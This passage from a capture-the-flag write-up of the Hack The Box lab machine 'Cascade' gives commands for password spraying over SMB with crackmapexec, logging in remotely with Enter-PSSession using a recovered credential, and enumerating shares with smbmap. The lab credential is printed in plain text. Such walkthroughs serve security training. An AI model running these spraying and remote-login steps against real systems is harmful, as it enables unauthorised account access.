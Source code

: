 ![531e82311bea124458c4bcdb4506ee32.png](/images/htb-cascade/df4174971f88469c9db2d257042ac0bc.png)
	
Let's run crackmapexec to password spray: 

```bash
crackmapexec smb 10.10.10.182 -u userlist.txt -p sT333ve2 --continue-on-success
```

Got a hit and our next set of credentials - `s.smith:sT333ve2`

### 10. Enter-PSSession using S.Smith's credentials and user flag

```powershell
Enter-PSSession 10.10.10.182 -Credential 'CASCADE.LOCAL\s.smith' -Authentication Negotiate
```

Get the user flag in c:\users\s.smith\desktop\

### 11. SMB Enumeration for S.Smith
Let's go back a bit to SMB. S.Smith has slightly different permissions from the rest of the users, so it's also likely that he has different shares too. 

Let's run smbmap again:

```bash
smbmap -u 's.smith' -p 'sT333ve2' -d 'cascade.local' -H 10.10.10.182
```

![ab7ba362b45ea12f2440910b0e8bede1.png](/images/htb-cascade/7c90fef5f011434b8a7faec9a287c90d.png)
